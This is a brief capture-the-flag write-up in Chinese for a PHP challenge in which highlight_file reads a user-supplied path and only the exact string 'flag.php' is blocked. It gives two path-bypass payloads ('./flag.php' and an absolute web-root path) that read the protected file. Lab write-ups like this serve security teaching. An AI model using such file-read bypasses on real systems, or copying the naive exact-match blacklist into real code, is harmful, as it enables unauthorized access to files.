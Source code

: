 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 19:21:24
# @link: https://ctfer.com

*/


highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }


}

```

分析源码

get传入u

如果u弱类型比较等于flag.php，则报错

否则输出flag



第二种

利用./

表示匹配当前目录

```
?u=./flag.php
```

![image-20250408135617139](./assets/image-20250408135617139.png)



## 第二种

```
?u=/var/www/html/flag.php
```

![image-20250408135745253](./assets/image-20250408135745253.png)